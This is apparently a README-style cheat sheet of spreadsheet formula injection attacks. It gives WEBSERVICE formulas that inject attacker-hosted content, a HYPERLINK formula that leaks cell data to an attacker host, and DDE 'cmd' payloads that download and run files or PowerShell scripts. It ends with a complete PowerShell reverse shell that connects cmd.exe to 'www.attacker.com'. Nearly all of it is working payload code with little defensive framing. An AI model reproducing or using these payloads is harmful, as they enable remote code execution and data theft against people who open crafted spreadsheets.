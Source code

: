 Useful Links
---------------------------------------------
https://www.notsosecure.com/data-exfiltration-formula-injection/

Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

Run attacking server
php -S www.attacker.com:80

On attacking server create "index.html" with content you want to change the "fake data" too.
```
############ Begin index.html ##################################
Fake Data
############ End index.html ####################################
```
To fill in multiple cells use multiple html file
```
=WEBSERVICE("http://www.attacker.com/al.html")
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################
```
```
=WEBSERVICE("http://www.attacker.com/a2.html")
############ Begin a2.html ##################################
Data
############ End a2.html ####################################
```

Use Hyperlink formula to send data to attacking server
------------------------------------------------------
```
# This will send the data from cells "C2" and "D2" to the attackers server using the GET method. 
=HYPERLINK("http://www.attacker.com?leak="&C2&D2,"Please click for further information")
```

Execute content when the spreadsheet loads
------------------------------------------------
```
# Works with any payload, will open associated extension or run exe, bat, etc....
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/index.jpeg;Start-Process index.jpeg'!A0
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/ps.bat;Start-Process ps.bat'!A0
```


Another example to use when the form size is limited
------------------------------------------------
```
# Will download powershell from attackers server and execute it
=cmd|' /C powershell IEX(wget www.attacker.com/p.ps1)'!A0

function cleanup {
if ($client.Connected -eq $true) {$client.Close()}
if ($process.ExitCode -ne $null) {$process.Close()}
exit}
$address = 'www.attacker.com'
$port = '80'
$client = New-Object system.net.sockets.tcpclient
$client.connect($address,$port)
$stream = $client.GetStream()
$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize
$process = New-Object System.Diagnostics.Process
$process.StartInfo.FileName = 'C:\\windows\\system32\\cmd.exe'
$process.StartInfo.RedirectStandardInput = 1
$process.StartInfo.RedirectStandardOutput = 1
$process.StartInfo.UseShellExecute = 0
$process.Start()
$inputstream = $process.StandardInput
$outputstream = $process.StandardOutput
Start-Sleep 1
$encoding = new-object System.Text.AsciiEncoding
while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())}
$stream.Write($encoding.GetBytes($out),0,$out.Length)
$out = $null; $done = $false; $testing = 0;
while (-not $done) {
if ($client.Connected -ne $true) {cleanup}
$pos = 0; $i = 1
while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) {
$read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos)
$pos+=$read; if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}}
if ($pos -gt 0) {
$string = $encoding.GetString($networkbuffer,0,$pos)
$inputstream.write($string)
start-sleep 1
if ($process.ExitCode -ne $null) {cleanup}
else {
$out = $encoding.GetString($outputstream.Read())
while($outputstream.Peek() -ne -1){
$out += $encoding.GetString($outputstream.Read()); if ($out -eq $string) {$out = ''}}
$stream.Write($encoding.GetBytes($out),0,$out.length)
$out = $null
$string = $null}} else {cleanup}}
```
